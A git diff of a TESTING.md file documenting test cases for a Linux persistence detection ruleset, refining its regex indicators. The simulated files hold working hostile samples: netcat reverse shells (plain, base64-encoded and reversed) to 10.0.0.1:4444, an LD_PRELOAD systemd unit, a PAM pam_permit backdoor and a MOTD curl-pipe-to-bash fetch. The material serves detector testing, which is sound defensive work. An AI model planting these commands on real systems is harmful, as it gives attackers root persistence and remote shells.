

Rules update

Changed region(s): [[0.0, 0.0, 0.9652, 0.9672], [0.9652, 0.3432, 1.0, 0.4056]]

diff --git a/TESTING.md b/TESTING.md
@@ -15,8 +15,8 @@ ACTION=="add", ENV{CMD}="nc -e /bin/bash 10.0.0.1 4444", RUN+="/bin/sh -c 'eval 
 ```
 
 **Matched Indicators (`rules.json`):**
-* `eval\s+(\$env|%E)\{` — **MEDIUM** (*Udev macro substitution evasion*)
-* `nc\s+-e` — **CRITICAL** (*Reverse shell attempt via netcat*)
+* `eval\s+(\$env|%E)\{` — **MEDIUM** (*Udev macro substitution evasion attempt detected in extracted payload*)
+* `\bnc\s+-e` — **CRITICAL** (*Reverse shell attempt using netcat with execution flag*)
 
 **PoC Evidence:**
 
@@ -36,7 +36,7 @@ Description=System Security Monitor
 
 [Service]
 Type=simple
-Environment="LD_PRELOAD=/tmp/libhook.so"
+Environment="LD_PRELOAD=/tmp/.libhook.so"
 ExecStart=/bin/bash -c 'echo "bmMgLWUgL2Jpbi9iYXNoIDEwLjAuMC4xIDQ0NDQ=" | base64 -d | bash'
 Restart=always
 
@@ -46,9 +46,9 @@ WantedBy=multi-user.target
 
 **Matched Indicators (`rules.json`):**
 * `LD_PRELOAD` — **CRITICAL** (*Shared library preloading injection*) - *Triggered via Environment field*
-* `(/tmp|/dev/shm|/var/tmp|/run/user)/[a-zA-Z0-9._-]+` — **HIGH** (*Execution from temporary directory*) - *Triggered via Environment field*
-* `\|\s*bash` — **HIGH** (*Piping raw remote stream directly into Bash shell execution*) - *Triggered via ExecStart field*
-* `base64\s+(-d|--decode)` — **HIGH** (*Base64 decoding invocation, often used to conceal malicious commands.*) - *Triggered via ExecStart field*
+* `(/tmp|/dev/shm|/var/tmp|/run/user)/\.[a-zA-Z0-9_-]+` — **HIGH** (*Direct execution of hidden script or binary from non-standard temporary directories.*) - *Triggered via Environment field*
+* `base(64|32)\s+(-d|--decode)\s*\|\s*(ba|z|k|da)?sh` — **CRITICAL** (*Base64/32 decoding invocation piped directly into a shell interpreter.*) - *Triggered via ExecStart field*
+* `\|\s*(ba|z|k|da)?sh` — **LOW** (*Piping raw remote stream directly into shell execution*) - *Triggered via ExecStart field*
 
 **PoC Evidence:**
 
@@ -63,16 +63,16 @@ WantedBy=multi-user.target
 **Simulated File:** `root_cron`
 
 ```cron
-* * * * * root echo "4444 1.0.0.01 hsab/nib/ cn" | rev | bash
-@reboot root echo "/dev/shm/payload.sh" | at now + 1 minute
+* * * * * root echo "4444 1.0.0.01 hsab/nib/ e- cn" | rev | bash
+@reboot root echo "/dev/shm/.payload.sh" | at now + 1 minute
 ```
 
 **Matched Indicators (`rules.json`):**
-* `rev\s*\|\s*(ba)?sh` — **CRITICAL** (*Reversed command string piped directly into shell*)
-* `\|\s*at\s+(now|[0-9:a-zA-Z+]+)` — **MEDIUM** (*Scheduling one-off tasks via 'at' daemon*)
-* `@reboot` — **HIGH** (*Startup schedule directive*)
-* `(/tmp|/dev/shm|/var/tmp|/run/user)/[a-zA-Z0-9._-]+` — **HIGH** (*Execution from temporary directory*)
-* `\|\s*bash` — **HIGH** (*Piping raw remote stream directly into Bash shell execution*) - *Triggered via ExecStart field*
+* `rev\s*\|\s*(ba|z|k|da)?sh` — **CRITICAL** (*Reversed command string piped directly into a shell interpreter.*)
+* `\|\s*at\s+(now|[0-9:a-zA-Z+]+)` — **MEDIUM** (*Scheduling one-off tasks via 'at' daemon to break process tree visibility*)
+* `@reboot` — **HIGH** (*Non-standard schedule directive: Executes payload automatically on system startup*)
+* `(/tmp|/dev/shm|/var/tmp|/run/user)/\.[a-zA-Z0-9_-]+` — **HIGH** (*Direct execution of hidden script or binary from non-standard temporary directories.*)
+* `\|\s*(ba|z|k|da)?sh` — **LOW** (*Piping raw remote stream directly into shell execution*)
 
 **PoC Evidence:**
 
@@ -93,9 +93,9 @@ session    optional     pam_exec.so /dev/shm/.harvest.sh
 ```
 
 **Matched Indicators (`rules.json`):**
-* `auth\s+sufficient\s+pam_permit\.so` — **CRITICAL** (*PAM authentication bypass backdoor*)
+* `auth\s+.*pam_permit\.so` — **CRITICAL** (*PAM authentication bypass backdoor*)
 * `pam_exec\.so` — **HIGH** (*Execution of external commands during PAM authentication*)
-* `(/tmp|/dev/shm|/var/tmp|/run/user)/[a-zA-Z0-9._-]+` — **HIGH** (*Execution from temporary directory*)
+* `(/tmp|/dev/shm|/var/tmp|/run/user)/\.[a-zA-Z0-9_-]+` — **HIGH** (*Direct execution of hidden script or binary from non-standard temporary directories.*)
 
 **PoC Evidence:**
 
@@ -105,17 +105,19 @@ session    optional     pam_exec.so /dev/shm/.harvest.sh
 
 ## PoC 5: MOTD Dynamic Script Execution Persistence
 
-**Vector:** Attackers place executable scripts into `/etc/update-motd.d/` that stealthily fetch and execute remote payloads with root permissions whenever any user logs in via SSH or interactive terminal.
+**Vector:** Attackers place executable scripts into `/etc/update-motd.d/` that stealthily fetch and execute remote fileless payloads bypassing SSL verification and directly piping to the shell.
 
 **Simulated File:** `99-backdoor`
 
 ```bash
 #!/bin/sh
-curl -s http://10.0.0.1/update.sh 
+curl -s -k https://10.0.0.1/update.sh | bash
 ```
 
 **Matched Indicators (`rules.json`):**
-* `curl\s+-s` — **HIGH** (*Silent HTTP request via curl*)
+* `\bcurl\s+.*\|\s*(ba|z|k|da)?sh` — **CRITICAL** (*Silent HTTP request via curl piped directly to a shell (Fileless payload execution)*)
+* `\bcurl\s+.*-(k|-insecure)` — **HIGH** (*HTTP request via curl with SSL/TLS verification disabled*)
+* `\|\s*(ba|z|k|da)?sh` — **LOW** (*Piping raw remote stream directly into shell execution*)
 
 **PoC Evidence:**
 
